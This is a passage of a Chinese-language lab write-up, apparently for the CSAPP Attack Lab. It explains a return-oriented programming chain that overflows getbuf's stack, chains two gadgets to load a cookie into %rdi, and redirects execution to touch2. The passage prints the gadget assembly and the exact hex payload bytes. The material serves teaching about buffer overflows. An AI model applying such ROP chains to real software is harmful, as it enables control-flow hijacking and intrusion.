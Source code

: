 根据上面分析，改写后的注入代码如下所示：

```c{.line-numbers}
popq  %rax
nop
ret
movq  %rax, %rdi
ret
```

因此，getbuf 函数的栈帧如下所示，getbuf 执行 ret，从栈中弹出返回地址 **`0x4019ab`**，跳转到我们的 gadget01。gadget01 执行，将 cookie 弹出，赋值给 %rax，然后执行 ret，继续弹出返回地址 **`0x4019a2`**，跳转到 gadget2。gadget2 执行，将 cookie 值成功赋值给参数寄存器 %rdi，然后执行 ret，继续弹出返回地址 **`0x4017ec`**，跳转到 touch2。

<div align="center">
  <img src="attack_lab_static//5.png" width="450"/>
</div>

根据上图的栈帧，就能写出输入序列：

```c{.line-numbers}
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
ab 19 40 00 00 00 00 00
fa 97 b9 59 00 00 00 00
a2 19 40 00 00 00 00 00
ec 17 40 00 00 00 00 00
```

